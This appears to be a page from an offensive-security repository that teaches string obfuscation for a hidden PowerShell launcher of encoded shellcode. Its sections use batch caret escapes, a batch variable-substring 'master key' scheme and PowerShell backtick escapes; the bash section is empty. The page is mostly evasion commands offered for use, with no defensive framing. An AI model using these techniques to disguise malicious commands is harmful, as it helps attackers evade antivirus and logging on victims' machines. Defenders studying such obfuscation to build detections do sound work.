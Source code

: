 <br />

# SIMPLE STRING OBFUSCATION TECNICS

<br /><br />

## batch

- string command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`<br />
The above string can be obfuscated using the **batch escape caracter** ^<br />

- string obfuscated<br />
`cm^d.e^xe /c po^w^er^shel^l.ex^e -n^op -w^i^nd h^idd^en -Ex^e^c B^yp^a^ss -no^n^i -en^c $shellcode`<br />

---

- string command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`<br />

- using one batch local variable to serve as our **master key** (varObj)

      @echo off
      SET varObj=abcdefghijlmnopqrstuvxzkyW0123456789ABCDEFGHIJLMNOPQRSTUVXZKYW
      %varObj:~3,1%%varObj:~12,1%%varObj:~4,1%.exe /c %varObj:~15,1%%varObj:~14,1%%varObj:~26,1%%varObj:~5,1%%varObj:~17,1%%varObj:~18,1%%varObj:~8,1%%varObj:~5,1%%varObj:~11,1%%varObj:~11,1%.exe -nop -%varObj:~26,1%%varObj:~9,1%%varObj:~4,1%%varObj:~4,1%%varObj:~5,1%%varObj:~13,1% 


- Description of varObj master_key:
https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/pedro-Wandoelmo-key.md
      

---

<br />

## bash


---

<br />

## powershell

- string command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`<br />
The above string can be obfuscated using the **powershell escape caracter** `<br />

- string obfuscated<br />
cm\`d.e\`xe /c po\`w\`er\`shel\`l.ex\`e -n\`op -w\`i\`nd h\`idd\`en -Ex\`e\`c B\`yp\`a\`ss -no\`n\`i -en\`c $shellcode<br />

---

<br />
